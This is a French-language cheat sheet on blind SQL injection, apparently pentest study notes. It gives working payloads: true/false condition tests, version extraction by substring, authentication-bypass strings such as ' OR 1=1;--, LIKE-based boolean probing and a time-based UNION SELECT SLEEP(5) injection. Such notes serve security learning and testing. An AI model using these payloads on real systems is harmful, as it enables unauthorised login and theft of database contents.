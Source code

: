 # Blind SQL injection

C'est lorsque nous obtenons peu ou pas de retour pour confirmer si nos requêtes injectées ont réussi ou non, c'est parce que le les messages d'erreur ont été désactivés, mais l'injection fonctionne toujours malgré tout.

## Rechercher

La clé pour découvrir une Blind SQL est de se baser sur une relation conditionnelle vrai ou faux. 

```sh
# Vrai
' and 'a'='a

# Faux
' and 'a'='b
```

> Si la request `vrai` affiche un contenu et la requete `faux` n'affiche pas alors le champ est vulnerable.

---

Affiche la version du serveur 

```sql
' and substring(@@version,1,1)='0
```

> Si sa ne fonctionne pas il faut incrementer la valeur de 0 a 1,2,3,4.... jusqu'a obtenir du contenu comme dans la requete `vrai`.
> Cela affiche le premier caractere de la version du serveur.

---

###### Bypass Authentication

Saisir ce qui suit dans le champ utilisateur ou du mot de passe: 

```sql
' OR 1=1;--
' or 1=1; -- -
') or 1=1; -- -
```

Que se passe-t-il si nous y saisissons `' or true --` dans le champ du nom d'utilisateur ?

```sql
') or true --
```

---
###### Booleans Bases

```sql
select * from <table> where database() like 'a%';
```

Cela renvoie toutes les lignes dont le nom d'utilisateur commence par la lettre a.

```sql
select * from <table> where database() like '%n';
```

Cela renvoie toutes les lignes dont le nom d'utilisateur se termine par la lettre n.

```sql
select * from <table> where username like '%mi%';
```

Cela renvoie toutes les lignes avec un nom d'utilisateur contenant les caractères mi en leur sein.

---
###### Time Base
Au lieu de cela, votre indicateur d'une requête correcte est basé sur le temps que la requête prend pour se terminer. Ce délai est introduit en utilisant des méthodes intégrées telles que **`SLEEP(x)`** parallèlement à l'instruction UNION. 
La méthode sleep ne sera exécutée qu'après une instruction UNION SELECT réussie.

> S'il n'y a pas eu de pause dans le temps de réponse, on sait que la requête a échoué.

```sql
admin123' UNION SELECT SLEEP(5),2;--
```
